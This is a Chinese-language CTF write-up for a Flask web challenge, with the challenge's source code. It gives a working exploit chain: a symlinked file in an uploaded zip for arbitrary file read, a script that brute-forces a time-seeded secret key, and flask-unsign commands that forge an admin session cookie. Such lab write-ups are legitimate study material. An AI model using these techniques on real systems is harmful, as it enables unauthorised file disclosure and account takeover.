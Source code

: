 - # 题解
	- 题目源码解析:`app.py`
		- `/login`登陆接口
		- `/register`注册接口
		- `/upload`接收用户发送的zip文件，解压，并将解压后的路径告诉用户
		- `/uploads/<path>`读取zip解压后的文件并发给用户
		- `/flag`如果用户是admin即发送flag
		- 后端使用flask，其特点是将session签名保存在用户的cookie中，攻击者只需要想办法获取secret就可以伪造session
		- 将日志保存在`/tmp/server.log`中，可以通过日志判断启动时间
	- 源码解析:`config.py`
		- 会使用随机数生成secret用于签名session
		- 随机数种子用启动的时间以及`SECRET_OFFSET`的值生成
		- 播种公式：`random.seed(round((time.time() + SECRET_OFFSET) * 1000))`
			- `time.time()`时间戳，精确到毫秒
			- 种子：四舍五入的`(time.time() + SECRET_OFFSET) * 1000`
	- 任意文件读取：软链接攻击
	  id:: 63c3b277-fdc4-479f-974a-abc0cf1a9fc4
		- 在zip包内保存一个软链接，然后再让服务器读取这个软链接即可读取任意文件
		- 可以使用 ((63c3a891-f453-463c-a33c-571e51441127)) 读取任意文件
			- `ln -s /app/config.py file && zip -ry zip.zip file && base64 -w 0 zip.zip`
		- 无权读取flag文件
	- 主要思路：
		- 用任意文件读取漏洞读取`SECRET_OFFSET`和服务器启动时间
		  id:: 63c3b477-fe5e-4a86-8157-a27026da0934
		- 生成所有可能的secret
		  id:: 63c3b77c-b5b5-4079-a40f-2c005088f6f9
			- 因为服务器启动时间不够精确，只能这样
		- 用 [[Flask-Unsign]] 测试所有的secret, 发现只有一个可以解密签名
		  id:: 63c3b79c-6531-4b4c-833a-d2c4a0691519
		- 使用正确的secret伪造管理员身份拿到flag
		  id:: 63c3b85f-9bc5-4586-8bf1-318f562379d7
		- [[draws/2023-01-15-16-17-22.excalidraw]]
	- ((63c3b477-fe5e-4a86-8157-a27026da0934))
		- 使用 ((63c3b277-fdc4-479f-974a-abc0cf1a9fc4)) 读取`/app/config.py`和`/tmp/server.log`即可
	- ((63c3b77c-b5b5-4079-a40f-2c005088f6f9))
		- 代码：
			- ```python
			  from datetime import datetime
			  import random
			  
			  def timestamp_to_secret(timestamp):
			      random.seed(round((timestamp) * 1000))
			      return "".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", "")
			  
			  SECRET_OFFSET = -67198624
			  
			  date_string = "2023-01-14 23:03:32 +0000"
			  dt_format = datetime.strptime(date_string, '%Y-%m-%d %H:%M:%S %z')
			  
			  timestamp = dt_format.timestamp()
			  timestamp += SECRET_OFFSET
			  
			  l = []
			  
			  for i in range(-2000, 2000):
			      l.append(timestamp_to_secret(timestamp + i / 1000))
			  
			  with open("test.txt", "w") as f:
			      f.writelines([line + "\n" for line in l])
			  ```
	- ((63c3b79c-6531-4b4c-833a-d2c4a0691519))
		- 运行`flask-unsign -u -w test.txt -c eyJhZG1pbiI6ZmFsc2UsInVpZCI6InRlc3R0ZXN0In0.Y8OwiQ.rKYwk2_A8u4XQqEyTJbVL5WcV64`
	- ((63c3b85f-9bc5-4586-8bf1-318f562379d7))
		- `flask-unsign -s --secret e897071bf3d5dc6ff7882fc0b64ece5c --cookie "{'admin': True, 'uid': 'testtest'}"`
- # 源码
	- `app.py`
		- ```python
		  import logging
		  import os
		  import re
		  import sqlite3
		  import subprocess
		  import uuid
		  import zipfile
		  
		  from flask import (Flask, flash, redirect, render_template, request, abort,
		                     send_from_directory, session)
		  from werkzeug.security import check_password_hash, generate_password_hash
		  
		  
		  app = Flask(__name__)
		  DATA_DIR = "/tmp/"
		  
		  # 设置最大文件大小
		  app.config['MAX_CONTENT_LENGTH'] = 2 * 1000 * 1000
		  
		  # 配置日志模块，将所有日志存储在/tmp/server.log中
		  LOG_HANDLER = logging.FileHandler(DATA_DIR + 'server.log')
		  LOG_HANDLER.setFormatter(logging.Formatter(fmt="[{levelname}] [{asctime}] {message}", style='{'))
		  logger = logging.getLogger("application")
		  logger.addHandler(LOG_HANDLER)
		  logger.propagate = False
		  for handler in logging.root.handlers[:]:
		      logging.root.removeHandler(handler)
		  logging.basicConfig(level=logging.WARNING, format='%(asctime)s %(levelname)s %(name)s %(threadName)s : %(message)s')
		  logging.getLogger().addHandler(logging.StreamHandler())
		  
		  # 设置秘密
		  app.config["SECRET_KEY"] = os.environ["SECRET_KEY"]
		  
		  @app.route("/")
		  def index():
		      return render_template("index.html")
		  
		  
		  @app.route("/login", methods=["GET", "POST"])
		  def login():
		      session.clear()
		  
		      if request.method == "GET":
		          return render_template("login.html")
		  
		      # 获取用户名和密码
		      username = request.form.get("username", "")
		      password = request.form.get("password", "")
		  
		      # 根据用户名查询密码，并和输入的密码对比
		      with sqlite3.connect(DATA_DIR + "database.db") as db:
		          res = db.cursor().execute("SELECT password, admin FROM users WHERE username=?", (username,))
		          user = res.fetchone()
		          if not user or not check_password_hash(user[0], password):
		              flash("Incorrect username/password", "danger")
		              return render_template("login.html")
		      
		      # 设置uid和admin
		      session["uid"] = username
		      session["admin"] = user[1]
		      return redirect("/upload")
		  
		  
		  @app.route("/register", methods=["GET", "POST"])
		  def register():
		      session.clear()
		  
		      if request.method == "GET":
		          return render_template("register.html")
		  
		      # 获取用户名和密码，用户名需要符合[a-zA-Z0-9_]{1,24}
		      username = request.form.get("username", "")
		      password = request.form.get("password", "")
		      if not username or not password or not re.fullmatch("[a-zA-Z0-9_]{1,24}", username):
		          flash("Invalid username/password", "danger")
		          return render_template("register.html")
		      
		      # 查询用户名是否重复，添加用户
		      with sqlite3.connect(DATA_DIR + "database.db") as db:
		          res = db.cursor().execute("SELECT username FROM users WHERE username=?", (username,))
		          if res.fetchone():
		              flash("That username is already registered", "danger")
		              return render_template("register.html")
		          
		          db.cursor().execute("INSERT INTO users (username, password) VALUES (?, ?)", (username, generate_password_hash(password)))
		          db.commit()
		      
		      session["uid"] = username
		      session["admin"] = False
		      return redirect("/upload")
		  
		  
		  @app.route("/upload", methods=["GET", "POST"])
		  def upload():
		      if not session.get("uid"):
		          return redirect("/login")
		      if request.method == "GET":
		          return render_template("upload.html")
		  
		      if "file" not in request.files:
		          flash("You didn't upload a file!", "danger")
		          return render_template("upload.html")
		      
		  
		      file = request.files["file"]
		  
		      # 生成随机名字并保存
		      uuidpath = str(uuid.uuid4())
		      filename = f"{DATA_DIR}uploadraw/{uuidpath}.zip"
		      file.save(filename)
		  
		      # 解压缩
		      subprocess.call(["unzip", filename, "-d", f"{DATA_DIR}uploads/{uuidpath}"])
		  
		      # 通知
		      flash(f'Your unique ID is <a href="/uploads/{uuidpath}">{uuidpath}</a>!', "success")
		      logger.info(f"User {session.get('uid')} uploaded file {uuidpath}")
		      return redirect("/upload")
		  
		  
		  @app.route("/uploads/<path:path>")
		  def uploads(path):
		      try:
		          return send_from_directory(DATA_DIR + "uploads", path)
		      except PermissionError:
		          abort(404)
		  
		  
		  @app.route("/flag")
		  def flag():
		      if not session.get("admin"):
		          return "Unauthorized!"
		      return subprocess.run("./flag", shell=True, stdout=subprocess.PIPE).stdout.decode("utf-8")
		  ```
	- `config.py`
		- ```python
		  import random
		  import os
		  import time
		  
		  SECRET_OFFSET = 0 # REDACTED
		  random.seed(round((time.time() + SECRET_OFFSET) * 1000))
		  os.environ["SECRET_KEY"] = "".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", "")
		  ```
